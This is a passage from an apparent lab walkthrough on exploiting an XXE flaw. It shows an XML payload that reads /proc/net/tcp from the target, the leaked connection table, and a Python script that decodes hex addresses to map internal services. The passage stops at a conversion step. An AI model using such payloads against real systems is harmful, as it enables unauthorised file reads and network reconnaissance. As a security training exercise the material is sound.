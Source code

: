 

> Notice the response contains the description specified in the XML entity!

> Note that we know there is an XXE vulnerability; lets leverage it to pull information on the internal services running on the target machine.

Use the following XML snippet to read the contents of the /proc/net/tcp file:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY file SYSTEM "file:///proc/net/tcp">
]>

<data>&file;</data>
```

Information: The /proc/net/tcp file contains information on the current TCP network connections.


> Notice we got back the file contents!

Contents of the /proc/net/tcp file:
```bash
sl local_address rem_address st tx_queue rx_queue tr tm->when retrnsmt uid timeout inode
0: 00000000:0016 00000000:0000 0A 00000000:00000000 00:00000000 00000000 0 0 74435656 1 0000000000000000 100 0 0 10 0
1: 0100007F:22B8 00000000:0000 0A 00000000:00000000 00:00000000 00000000 0 0 74418007 1 0000000000000000 100 0 0 10 0
2: 0B00007F:9599 00000000:0000 0A 00000000:00000000 00:00000000 00000000 65534 0 74430920 1 0000000000000000 100 0 0 10 0
3: 00000000:1F40 00000000:0000 0A 00000000:00000000 00:00000000 00000000 0 0 74434697 1 0000000000000000 100 0 0 10 0
4: 034CDCC0:1F40 024CDCC0:EB4C 06 00000000:00000000 03:0000176F 00000000 0 0 0 3 0000000000000000
5: 034CDCC0:1F40 024CDCC0:EB4E 01 00000000:00000000 00:00000000 00000000 0 0 74434828 1 0000000000000000 20 4 30 10 -1
```

> [Note] The information you received would differ slightly since the IP addresses of the machines change at every lab launch. Kindly make sure to fetch the contents of the above file before proceeding.

Step 6: Decode the IP addresses and port numbers retrieved from the /proc/net/tcp file.

Use the following Python script to convert the IP addresses in hex to dotted-decimal notation:

convert.py:
```python
import socket
import struct
hex_ip = input("Enter IP (in hex): ")
addr_long = int(hex_ip, 16)
print("IP in dotted-decimal notation:", socket.inet_ntoa(struct.pack("<L", addr_long)))
```



Convert the hex IP addresses received from /proc/net/tcp file:
